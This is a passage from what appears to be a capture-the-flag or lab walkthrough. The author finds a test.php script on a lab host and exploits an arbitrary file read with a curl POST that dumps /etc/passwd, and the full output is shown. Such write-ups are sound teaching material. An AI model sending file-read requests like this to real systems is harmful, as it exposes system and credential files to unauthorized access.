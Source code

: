 The final thing that Nikto found, was a file named `test.php`, and as Nikto suggested, this was indeed interesting...

## Testing Suspicious File for Vulnerabilities
At this point, I should have probably gone and taken a look at the main website being served, but given the unsafe, hacked together code that one usually finds in files aimed at testing / proof of concept, it seemed worth while jumping straight into it!

Navigating to `test.php` presented me with an error:

> 'file' parameter is empty. Please provide file path in 'file' parameter

Since it asked nicely, I obliged! I tried two get requests:

* `test.php?file=/etc/passwd`
* `test.php?file=index.php`

Both returned the same error message again, which indicated maybe the script is reading the `file` field from `$_POST` rather than `$_GET`.

With this in mind, I posted the data instead using cURL and confirmed that there is an arbitrary file access vulnerability within this script:

```shell_session
root@kali:~# curl --data "file=/etc/passwd" http://10.2.0.104/test.php
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:106::/var/run/dbus:/bin/false
whoopsie:x:104:107::/nonexistent:/bin/false
landscape:x:105:110::/var/lib/landscape:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
```

## Examining Code Using The File Access Vulnerability
As I could now view any arbitrary file, I visited the web page to see what I was presented with; which was a login screen.
